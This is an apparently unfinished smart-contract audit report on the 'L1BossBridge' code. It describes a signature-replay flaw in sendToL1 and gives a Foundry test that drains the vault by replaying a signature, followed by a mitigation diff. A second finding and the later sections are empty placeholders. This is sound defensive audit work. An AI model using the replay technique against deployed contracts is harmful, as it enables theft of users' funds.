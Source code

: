 ## High

### [H-3] The `L1BossBridge::sendToL1` is vulnerable to replay signature attacks, because it lacks a check if a signature has already been used. It means that a signature can be used an unlimited times to retrieve L1 tokens.

**Description:** The `sendToL1` function is meant to allow a central signer to approve and execute retrievals of L1 tokens following the deposit of L2 tokens. To do this, it takes the `v`, `r` and `s` values as signature of the `L1BossBridge` signer, and a `message` field that contains the abi.encoded function call to transfer L1 tokens to the user. 

However, the `sendToL1` function lacks a check if the signature has been used before. Because the signature is send over chain, it can be copied by a malicious user. This user can use these values to authorize subsequent calls to the `sendToL1` function indefinitely. 

**Impact:** As a malicious user can use a legitimate signature to withdraw L1 tokens indefinitely, it allows all assets to be drained from the vault. 

**Proof of Concept:** 
1. A malicious user makes a legit deposit to `depositTokensToL2`. 
2. This triggers the operator of the vault to sign a message for the function `withdrawTokensToL1`. 
3. The malicious user copies the resulting signature and replays the call to `withdrawTokensToL1` until all funds are drained. 

<details>
<summary> Proof of Concept</summary>

Place the following in `L1TokenBridge.t.sol`
```javascript
    function testSignatureReplay() public {
        address attacker = makeAddr("attacker");
        uint256 vaultInitialBalance = 100e18; 
        uint256 attackerInitialBalance = 100e18; 
        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), address(attacker), attackerInitialBalance); 

        // an attacker deposits tokens to L2. 
        vm.startPrank(attacker); 
        token.approve(address(tokenBridge), type(uint256).max); 
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance); 

        //signer/operator signs withdrawal
        bytes memory message = abi.encode(
            address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance))
        ); 
        (uint8 v, bytes32 r, bytes32 s) = 
            vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message))); 
        
        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s); 
        }

        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance); 
        assertEq(token.balanceOf(address(vault)), 0); 
    }
```
</details>

**Recommended Mitigation:** Add a state variable to keep track what signatures have been used, and adding a check to disallow reuse of signatures. 

```diff 
+   mapping(bytes signature => bool hasBeenUsed) public usedSignatures; // users that can send l1 -> l2 
.
.
.
+   error L1BossBridge__ReuseSignatureNotAllowed();
.
.
.   
    function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
        bytes memory signature = abi.encodePacked(r, s, v)
        address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);

        if (!signers[signer]) {
            revert L1BossBridge__Unauthorized();
        }

+       if (usedSignatures[signature]) {
+           revert L1BossBridge__ReuseSignatureNotAllowed();
+       }
+       usedSignatures[signature] = true; 


        (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));
        (bool success,) = target.call{ value: value }(data);
        if (!success) {
            revert L1BossBridge__CallFailed();
        }
    }
```

### [H-4] The `L1BossBridge::sendToL1` function does not check the values extracted from `message` before using them to send eth to recipient address by placing a low level `.call`. This allows a malicious user to sent large amounts of eth to their own address, or create a DoS by executing a function with immense gas cost.  

**Description:** 
TO DO - CONTINUE HERE (First flight just launched.. will finish this report when done with that one.)

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 



## Medium


## Low 


## Informational 


## Gas 
